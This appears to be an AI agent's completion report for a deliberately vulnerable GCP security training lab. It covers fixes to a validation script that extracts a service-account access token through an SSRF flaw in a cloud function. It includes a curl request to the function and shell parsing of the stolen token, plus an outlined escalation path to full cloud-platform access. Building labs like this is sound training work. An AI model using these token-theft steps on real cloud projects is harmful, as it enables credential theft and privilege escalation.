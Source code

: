 # Module 3 Validation Complete

## Summary
Successfully fixed the final validation issue in Module 3. All 24 validation checks are now passing.

## Issue Fixed
The validation script was failing to parse the access token from the cloud function's response due to escaped JSON in the `function_account` field.

## Changes Made

### 1. Fixed Token Parsing in validate-m3.sh (lines 347-359)
Updated the parsing logic to properly handle escaped JSON:
```bash
# Extract the entire function_account value including escaped quotes
FUNCTION_ACCOUNT=$(echo "$SSRF_RESPONSE" | sed -n 's/.*"function_account": "\(.*\)".*/\1/p' | head -1)

# Unescape the JSON and extract the access_token
EXTRACTED_TOKEN=$(echo "$FUNCTION_ACCOUNT" | sed 's/\\"/"/g' | grep -o '"access_token":"[^"]*"' | cut -d'"' -f4)

# Added jq fallback for more robust parsing
if [ -z "$EXTRACTED_TOKEN" ] && command -v jq &> /dev/null; then
    EXTRACTED_TOKEN=$(echo "$SSRF_RESPONSE" | jq -r '.function_account' 2>/dev/null | jq -r '.access_token' 2>/dev/null)
fi
```

### 2. Updated solution.md Module 3 Commands
Updated line 67 to use Gen2 Cloud Run URLs instead of legacy Gen1 format:
```bash
# Get the Gen2 function URL (Cloud Run service)
FUNCTION_URL=$(gcloud run services describe monitoring-function --region=$LOCATION --format='value(status.url)')
# Or use the hard-coded URL from invoke_monitoring_function.sh
curl -s -X POST $FUNCTION_URL -H "Authorization: bearer $(gcloud auth print-identity-token)" -H "Content-Type: application/json" -d '{"metadata": "token"}'
```

## Validation Results
```
=====================================
Validation Summary
=====================================
Passed: 24
Failed: 0

✓ All validation checks passed!
The infrastructure is correctly set up for Module 3.
```

## Attack Path Validated
1. VM with limited OAuth scopes (devstorage.read_only)
2. VM reads cloud function source from storage bucket
3. Source reveals SSRF vulnerability in metadata endpoint
4. Exploit extracts function's service account token
5. Function token has cloud-platform scope (full GCP access)
6. Demonstrates privilege escalation from limited to full access